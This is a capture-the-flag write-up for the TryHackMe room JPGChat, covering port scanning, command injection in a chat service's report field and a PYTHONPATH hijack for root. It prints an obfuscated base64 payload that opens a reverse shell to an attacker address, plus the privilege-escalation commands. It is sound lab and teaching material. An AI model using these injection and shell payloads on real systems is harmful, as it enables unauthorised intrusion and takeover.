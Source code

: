 ```yaml
---
title: "JPGChat"
date: 2025-03-12
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF JPGChat
categories: [TryHackMe, Easy]
tags: [linux, python]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>JPGChat</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Exploiting poorly made custom chatting service written in a certain language...</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/jpgchat">https://tryhackme.com/room/jpgchat</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge JPGChat.

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.77.133
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 04:51 EDT
  Nmap scan report for 10.10.77.133
  Host is up (0.045s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  22/tcp   open  ssh
  3000/tcp open  ppp
  
  Nmap done: 1 IP address (1 host up) scanned in 29.32 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,3000 10.10.77.133
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 04:52 EDT
  Nmap scan report for 10.10.77.133
  Host is up (0.038s latency).
  
  PORT     STATE SERVICE    VERSION
  22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 fe:cc:3e:20:3f:a2:f8:09:6f:2c:a3:af:fa:32:9c:94 (RSA)
  |   256 e8:18:0c:ad:d0:63:5f:9d:bd:b7:84:b8:ab:7e:d1:97 (ECDSA)
  |_  256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)
  3000/tcp open  tcpwrapped
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 5.49 seconds
```
From here I proceeded the analysis by port 3000.

## Port 3000 Analysis

```bash
$ nc 10.10.77.133 3000           
  Welcome to JPChat
  the source code of this service can be found at our admin's github
  MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
  REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

A quick search revealed the <a href="https://github.com/Mozzie-jpg/JPChat">GitHub</a> repository, along with the source code. The most important part is the report functionality. In that section, I had control over a variable that is included in a command. The command is then executed by Bash. Before testing on the server, I created a small proof of concept:
```python
import os
report_text = test;whoami; echo test"
os.system("bash -c 'echo %s >> /home/kali/Desktop/report.txt'" % report_text)
```
The payload worked, and I got the output as expected:
```bash
$ python3 test.py
  test
  kali
```

Using the `;` I was able to expand the logic and break out. Since I was able to execute arbitrary commands on the system, I managed to gain a reverse shell using the predefined Penelope payloads:
```bash
$ nc 10.10.77.133 3000
  Welcome to JPChat
  the source code of this service can be found at our admin's github
  MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
  REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
  [REPORT]
  this report will be read by Mozzie-jpg
  your name:
  test;echo -n c2V0c2lkIGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvOTAwMSAwPiYxICYK|base64 -d|bash; echo test
  your report:
  test
```

With this initial access, I was able to successfully retrieve the user flag:
```bash
wes@ubuntu-xenial:~$ cd /home/wes
wes@ubuntu-xenial:~$ cat user.txt
  JPC{[remove]}
```

## Privilege Escalation vagrant

I continued by running `sudo -l` and received the following output:
```bash
wes@ubuntu-xenial:~$ sudo -l
  Matching Defaults entries for wes on ubuntu-xenial:
      mail_badpass, env_keep+=PYTHONPATH
  
  User wes may run the following commands on ubuntu-xenial:
      (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

The script that is executed with root privileges imports `compare`. Furthermore, the `PYTHONPATH` environment variable wasn't set, allowing me to manipulate the location where Python looks for imports:
```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

For an initial proof of concept, I searched for a directory where I had write permissions and set the `PYTHONPATH` to that location:
```bash
wes@ubuntu-xenial:~$ find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
  [...]
  /home/wes
  [...]
wes@ubuntu-xenial:~$ export PYTHONPATH=/home/wes
```

I created a script called `compare.py`, added a print statement, and made it executable. When I ran `test_module.py` with sudo, my own `compare.py` was executed:
```bash
wes@ubuntu-xenial:~$ echo "print(1)" > compare.py
wes@ubuntu-xenial:~$ chmod +x compare.py 
wes@ubuntu-xenial:~$ sudo /usr/bin/python3 /opt/development/test_module.py
  1
  Traceback (most recent call last):
    File "/opt/development/test_module.py", line 5, in <module>
      print(compare.Str('hello', 'hello', 'hello'))
  NameError: name 'compare' is not defined
```

Great! Since I aimed to gain root privileges, I modified `compare.py` to spawn a Bash shell. After running the main script again, I was able to retrieve the root flag:
```bash
wes@ubuntu-xenial:~$ echo "import pty;pty.spawn('bash')" > compare.py
wes@ubuntu-xenial:~$ sudo /usr/bin/python3 /opt/development/test_module.py
root@ubuntu-xenial:~# whoami
  root
root@ubuntu-xenial:~# cat /root/root.txt 
  JPC{[remove]}
  
  Also huge shoutout to Westar for the OSINT idea
  i wouldn't have used it if it wasnt for him.
  and also thank you to Wes and Optional for all the help while developing
  
  You can find some of their work here:
  https://github.com/WesVleuten
  https://github.com/optionalCTF
```

solved! :)

